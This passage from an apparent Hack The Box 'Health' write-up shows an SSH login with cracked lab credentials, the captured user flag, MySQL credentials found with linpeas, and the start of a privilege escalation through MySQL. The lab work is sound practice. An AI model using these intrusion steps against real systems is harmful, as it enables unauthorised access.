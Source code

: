 Now we can login with the credentials we cracked.

```
susanne
february15
```

```
└─$ ssh susanne@health.htb                         
The authenticity of host 'health.htb (10.129.61.202)' can't be established.
ED25519 key fingerprint is SHA256:K0WrmjTWDZhl/D/mYbJSv/cBLF1Jnx0T2auXQQDc7/Q.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'health.htb' (ED25519) to the list of known hosts.
susanne@health.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-191-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct  5 20:35:35 UTC 2022

  System load:  0.05              Processes:           176
  Usage of /:   68.7% of 3.84GB   Users logged in:     0
  Memory usage: 16%               IP address for eth0: 10.129.61.202
  Swap usage:   0%


0 updates can be applied immediately.


susanne@health:~$ 
```
```
susanne@health:~$ cat user.txt 
7aca7***************************
```

Running linpeas reveals some credentials for Mysql that we can use and Pspy shows that root is running ```Mysql laravel --execute TRUNCATE tasks```

```console
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=laravel
DB_USERNAME=laravel
DB_PASSWORD=MYsql_strongestpass@2014+
```

With this info we can attempt to privilege escalate through mysql and the webpages webhook function.


```console
susanne@health:/var/www/html/.git$ mysql -u laravel -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 58
Server version: 5.7.39-0ubuntu0.18.04.2 (Ubuntu)

Copyright (c) 2000, 2022, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

```